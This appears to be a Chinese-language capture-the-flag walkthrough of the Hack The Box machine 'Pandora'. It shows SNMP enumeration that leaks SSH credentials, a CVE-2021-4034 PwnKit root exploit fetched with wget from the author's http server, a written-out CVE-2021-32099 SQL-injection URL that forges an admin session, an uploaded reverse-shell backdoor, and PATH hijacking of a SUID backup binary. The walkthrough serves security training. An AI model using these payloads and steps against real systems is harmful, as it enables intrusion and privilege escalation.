
个人思路
拿到题目先用nmap执行：
1 | nmap -sS -sU 10.10.11.136 |
扫描下其端口服务：
1 | └─# nmap -sS -sU 10.10.11.136 |
发现有熟悉的80端口，用浏览器去访问下

发现除了静态前端外，基本没有什么敏感点。

除了有一次看起来有问题的信息反馈，但测试下在我们前端并无明显反馈，且不像用sql注入之内的的漏洞，更像是功能没用写全……
然后看下DNS映射，Pandora.htb域名对外映射的就是我们访问的web服务。
没用什么思路，用dirseach 扫描下路径看下有没有什么有用的信息。
执行：
1 | python3 dirsearch.py -u 10.10.11.136 |
得到结果：

仔细审查下，发现assets目录貌似有一个目录穿越

然后发现都跟页面显示相关……没有什么可以利用点。
回到nmap信息，发现除了ssh服务和web服务还有snmp服务：
1 | 161/udp open|filtered snmp |
先用searchsploit snmp查询下发现这个服务还挺多问题的：

通过谷歌找了篇文章来了解snmp的大概：
https://www.anquanke.com/post/id/260832
了解到SNMP协议主要用来接收网络节点的通知消息和警告时间报告等，从而获知网络出现的问题。
而文章中提到了一种工具 snmpwalk，snmpwalk是SNMP的一个工具，它使用SNMP的GETNEXT请求查询指定OID（SNMP协议中的对象标识）入口的所有OID树信息，并显示给用户。snmpwalk使用方法很简单，如下
1 | snmpwalk -v 1或2c(代表SNMP版本) -c SNMP读团体密码 IP地址 OID(对象标示符) |
具体可以查看：
https://www.cnblogs.com/--smile/p/11086770.html
执行命令：
1 | snmpwalk -v 2c Pandora.htb –c public > 1.txt |
在1.txt 发现一个有意识的命令执行记录：

推测是有个用户名为dantel 密码为HotelBabylon23
用ssh 登录看看

发现成功登录，但user flag 在另一个用户目录下没有权限读取。

这里用lsb_release -a 和uname -r来查询发行版本与内核版本。

发现是Ubuntu 20.04.3 LTS，于是谷歌下发现有CVE-2021-4034提取。在github上找了个poc：
https://github.com/nikaiw/CVE-2021-4034/blob/master/cve2021-4034.py
用python 来搭建简单http服务：
1 | python3 -m http.server 9090 |
执行上面命令。在自己的电脑9090端口开启web服务。
在靶场机器上执行wget 10.10.14.94:9090/cve2021-4034.py来获取poc：

执行poc，来获得root:

这里一下全到root才发现自己可能非预期了，但已经有权限读取root.txt和user.txt了

正常解法
在看了其他大佬wp发现自己完全避开，关键点…..tcl.
由于daniel用法在curl 80端口时出现不同页面，所有怀疑有内网服务。
用命令:
1 | ssh -L 8001:127.0.0.1:80 daniel@10.10.11.136 |
来转发端口，可以看到有个全新web页面
根据下方提示版本，谷歌后发现是Pandora模板（正好点题）
d但是我们不知道后台密码，经过谷歌后发现CVE-2021-32099可以通过sql注入获得admin cookie
poc 如下：
1 | http://localhost:8000/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271 |
然后我们进入管理页面，

在后门页面的admin tools 的文件管理里上传后门反弹shell文件

通过base64 解密url中base64部分得到相对位置。
1 | └─# echo L3BhbmRvcmFfY29uc29sZS9pbmNsdWRlLy4uLy9hdHRhY2htZW50L2ZpbGVzX3JlcG8vMV9hYWEucGhw|base64 -d |
访问后门得到shell

用find / -perm -u=s 2> /dev/null 找是否用权限配置有问题的命令
1 | /usr/bin/sudo |
发现/usr/bin/pandora_backup 有点可疑。
运行后，shell崩了，可能用什么报错信息未看到，用python 加固shell
1 | python3 -c 'import pty; pty.spawn("/bin/bash")' |
cp pandora_backup 到web 目录/var/www/pandora/pandora_console/images下,在我们用户机器上访问下载。
在ida 里F5反汇编:
1 | int __cdecl main(int argc, const char **argv, const char **envp) |
发现程序调用tar 但是使用system来调用，没用明确是哪个tar，我们可以伪造一个tar添加到环境变量中，让系统调用我们就可
切换到matt的用户目录，然后创建由/bin/bash一个假的tar可执行文件，并将matt的家路径注入PATH变量中,这样可以在tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*命令结束后仍然在/bin/bash命令中
这是本地用/bin/sh做的实验：
1 | └─# ./tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console |
因此我们在远程伪造
1 | cd /home/matt/ |
然后得到root